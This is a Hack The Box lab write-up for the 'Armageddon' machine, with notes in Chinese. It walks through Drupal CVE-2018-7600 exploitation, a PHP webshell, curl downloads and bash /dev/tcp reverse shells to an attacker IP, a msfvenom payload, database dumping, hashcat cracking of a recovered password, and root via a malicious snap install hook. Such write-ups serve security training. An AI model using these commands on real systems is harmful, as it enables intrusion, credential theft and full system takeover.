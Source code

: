 # Armageddon
- URL : https://app.hackthebox.eu/machines/323
- IP : 10.129.216.90


## Recon
- nmapAutomator.sh -H 10.129.216.90 -t recon
    - 80 
    - 22
- ![](https://i.imgur.com/GqrQKh1.png)

![](https://i.imgur.com/0hkqV0B.png)

## Exploit
https://github.com/pimps/CVE-2018-7600

## Webshell
- `python3 drupa7-CVE-2018-7600.py  http://10.129.216.90/ -c "echo '<?php system(\$_GET[A]);' > s.php "`
- ![](https://i.imgur.com/rZeQanF.png)
- 確認電腦裡有 curl
    - ![](https://i.imgur.com/v2WoRRv.png)
- 下載 reverse shell
    - `curl http://10.10.16.35/s_HTB -o s`
    - 但發現戳不回來
- 傳 b374k
    - http://10.129.216.90/s.php?A=curl%20http://10.10.16.35/b374k.php%20-o%20s.php
    - 戳 reverse shell
        - ![](https://i.imgur.com/cSPqMF6.png)
        - 發現權限不足
- Try msf shell
    - `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.16.35 LPORT=7878 -f elf > shell1`
    - ![](https://i.imgur.com/WxuQxke.png)
- 給權限
    - ![](https://i.imgur.com/b0ynbNi.png)
    - 還是沒權限
- 試試看如果連 80 port
    - `bash -c 'bash -i >& /dev/tcp/10.10.16.35/80 0>&1'`
    - 成功

## 提權
- 收 Reverse shell
    - ![](https://i.imgur.com/dOuUK4E.png)
- 載豌豆
    - ![](https://i.imgur.com/GfPbhkr.png)
- 發現一些密碼
    - ![](https://i.imgur.com/4A71xJT.png)
    - ![](https://i.imgur.com/4VeSgm5.png)
    - drupal-6.user-password-token.database.php
    - ![](https://i.imgur.com/6Sy0DKQ.png)
- spawn
    - `perl -e 'exec "/bin/bash";'`
- dump mysql
    - `mysqldump -u drupaluser -h localhost -p drupal  > a.sql`
- 找到一組 hash
    - ![](https://i.imgur.com/TeVmSNH.png)
    - ![](https://i.imgur.com/0bxuTfa.png)
- 確認使用者名稱
    - ![](https://i.imgur.com/01spQfv.png)
- 爆破 hash
    - `hashcat -m 7900 hash.txt /opt/rockyou.txt`
    - ![](https://i.imgur.com/vApVQva.png)
- 取得帳密
    - `brucetherealadmin`
    - `booboo`
- 切換使用者
    - ![](https://i.imgur.com/BPuOHUj.png)
## 提權
- 直接用 SSH 登入
    - ![](https://i.imgur.com/4GSbLnR.png)
    - ![](https://i.imgur.com/csR3PGi.png)
    - 發現可以用 sudo snap 
- 本地
    - `gem install fpm`
    - https://gtfobins.github.io/gtfobins/snap/#sudo
- 照做提權
    - ![](https://i.imgur.com/xcf8ksJ.png)
    - ![](https://i.imgur.com/ricf9i6.png)

```bash=
COMMAND="bash -c 'bash -i >& /dev/tcp/10.10.16.35/80 0>&1'"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```
- 傳上去
    - ![](https://i.imgur.com/EcCRXAG.png)
- 收 Reverse shell
    - ![](https://i.imgur.com/MJuVqnG.png)
- 取得 Root
    - ![](https://i.imgur.com/v8ym56k.png)

